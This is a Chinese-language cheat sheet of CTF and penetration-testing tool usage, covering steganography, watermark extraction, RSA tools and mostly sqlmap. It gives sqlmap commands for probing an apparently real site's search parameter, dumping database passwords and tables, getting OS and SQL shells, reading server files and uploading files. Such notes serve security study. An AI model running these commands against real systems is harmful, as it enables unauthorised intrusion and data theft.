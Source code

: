 ## 一、杂项工具

### 1、outguess工具，隐写读取，可带密钥
安装：直接kali安装即可
使用：
```bash
#不带密码：
outguess -r 图片文路径 -t 输出内容文件路径
#带密码
outguess -k ‘密码’ -r 图片文件路径 -t 输出路径

#隐写：
outguess -k  “密码” -d hidden。txt demo.jpg out.jpg
```
### 2、 rsa工具集-openssl，rsatool，rsactftool，rsaAtool

[[rsa工具集使用]]
### 3、CaptfEncoder：网络安全工具套件

[[CaptfEncoder]]
### 4、盲水印提取
工具kali安装：
```
pip install blind-watermark
```

```
# embed watermark into image:
blind_watermark --embed --pwd 1234 examples/pic/ori_img.jpeg "watermark text" examples/output/embedded.png
# extract watermark from image:
blind_watermark --extract --pwd 1234 --wm_shape 111 examples/output/embedded.png
```
### 5、sqlmap
探测
```bash

sqlmap -u "https://www.haifong.org/search?key=1"
#在虚拟机中，使用主机代理网络（注意首先需要开启clash的允许局域网访问）
sqlmap -u "https://www.haifong.org/search?key=1" --proxy=http://192.168.240.1:7890
#探测post，让他自己找参数
sqlmap -u "url" --form --batch

#指定探测post数据
#首先抓包一个post数据
sqlmap -u "url" --data="抓包抓到的post数据" -p 前面data的参数指定一个扫描

#抓一个数据包并将数据爆保存到文件里，post请求，用这种方式最好（get也可以用）
#使用-r参数
sqlmap -r 文件名

#判断cookie里有没有，可以使用--cookie


```
探测级别：
```
--level 
```
获取库名
```
sqlmap -u url --current-db --batch
```
获取数据库密码：
```
sqlmap -u url  --batch --password
```
获取字段名：
```
sqlmap -u url --batch -D 数据苦命 -T 表名  --columns
```
获取数据：
```shell
sqlmap -u url --batch -D 数据苦命 -T 表名  --columns
```
拿shell：
```shell
sqlmap -u url --os-shell
sqlmpa -u url --sql-shell #拿到这个shell，只能执行查询语句
```
上传文件：
```shell
#下载文件
sqlmap -u url --file-read 绝对路劲 -v  #100s后关机 -v查看详细信息，可以看到它使用的sql语句
#上传文件
sqlmap -u url --file-write 本地文件路径  --file-dest 上传的文件名

```
![[Pasted image 20231216171016.png]]

绕过脚本：
sqlmap自带了六十几个tamper
## 二、web工具
### 1、**[[Tplmap使用教程]]**
## 三、内网渗透工具
### 1、[[Mimikatz使用]]

